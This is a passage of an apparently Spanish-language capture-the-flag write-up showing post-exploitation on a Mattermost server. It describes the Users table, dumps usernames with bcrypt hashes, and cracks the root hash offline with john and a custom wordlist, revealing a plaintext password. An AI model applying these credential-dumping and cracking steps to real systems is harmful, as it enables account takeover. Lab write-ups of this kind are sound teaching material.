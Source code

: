 ```
+--------------------+--------------+------+-----+---------+-------+
| Id                 | varchar(26)  | NO   | PRI | NULL    |       |
| CreateAt           | bigint(20)   | YES  | MUL | NULL    |       |
| UpdateAt           | bigint(20)   | YES  | MUL | NULL    |       |
| DeleteAt           | bigint(20)   | YES  | MUL | NULL    |       |
| Username           | varchar(64)  | YES  | UNI | NULL    |       |
| Password           | varchar(128) | YES  |     | NULL    |       |
| AuthData           | varchar(128) | YES  | UNI | NULL    |       |
| AuthService        | varchar(32)  | YES  |     | NULL    |       |
| Email              | varchar(128) | YES  | UNI | NULL    |       |
| EmailVerified      | tinyint(1)   | YES  |     | NULL    |       |
| Nickname           | varchar(64)  | YES  |     | NULL    |       |
| FirstName          | varchar(64)  | YES  |     | NULL    |       |
| LastName           | varchar(64)  | YES  |     | NULL    |       |
| Position           | varchar(128) | YES  |     | NULL    |       |
| Roles              | text         | YES  |     | NULL    |       |
| AllowMarketing     | tinyint(1)   | YES  |     | NULL    |       |
| Props              | text         | YES  |     | NULL    |       |
| NotifyProps        | text         | YES  |     | NULL    |       |
| LastPasswordUpdate | bigint(20)   | YES  |     | NULL    |       |
| LastPictureUpdate  | bigint(20)   | YES  |     | NULL    |       |
| FailedAttempts     | int(11)      | YES  |     | NULL    |       |
| Locale             | varchar(5)   | YES  |     | NULL    |       |
| Timezone           | text         | YES  |     | NULL    |       |
| MfaActive          | tinyint(1)   | YES  |     | NULL    |       |
| MfaSecret          | varchar(128) | YES  |     | NULL    |       |
+--------------------+--------------+------+-----+---------+-------+
25 rows in set (0.001 sec)

MariaDB [mattermost]> select Username,Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| test                             | $2a$10$bwpDYPBA4P9QhoG.y4dYHuVMH3kmzKjf.OxGIs2I70vQkwmHAC5Pa |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------------+--------------------------------------------------------------+
8 rows in set (0.000 sec)
```

El `hash` de `root` lo `almacenamos` en un `archivo` y lo `crackeamos` con el `diccionario` que hemos creado anteriormente con `hashcat`

```
# john -w:wordlist.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
PleaseSubscribe!21 (?)     
1g 0:00:00:00 DONE (2024-08-22 22:21) 4.761g/s 342.8p/s 342.8c/s 342.8C/s PleaseSubscribe!..PlesPles
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
